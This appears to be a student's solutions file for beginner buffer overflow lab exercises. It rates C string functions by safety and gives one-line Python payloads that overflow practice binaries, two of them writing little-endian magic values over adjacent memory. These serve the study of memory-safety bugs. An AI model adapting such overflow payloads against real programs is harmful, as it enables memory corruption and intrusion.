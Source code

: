 # Presentation + Variation 1
## Exercise 3a
```
strcat() --- Not safe, vulnerable to overflow attacks.
gets() -- Very dangerous, please never use.
strncat() --- Better version of strcat()
fgets() --- The safe version of gets()
sprintf() --- Does not check buffer boundaries. Overflows are possible.
puts() --- Looks like gets(), but not particularly dangerous. Automatically appends newline.
printf() --- Can be dangerous, be aware of format string vulnerabilities when used.
fputs() --- The newer version of puts(). No new line.
```

## Exercise 3b
`python -c 'print 30*"A"' |./Bof1`

# Endianness, Variation 2
## Exercise 3c
`python -c 'print 10*"A" + "\xbe\xba\xfe\xca"' |./Bof2`

## Exercise 3d
`python -c 'print 28*"A" +  "\xef\xbe\xad\xde"' | ./Bof3`

# Instruction pointer, Pro
## Exercise 3e
https://0xrick.github.io/binary-exploitation/bof4/

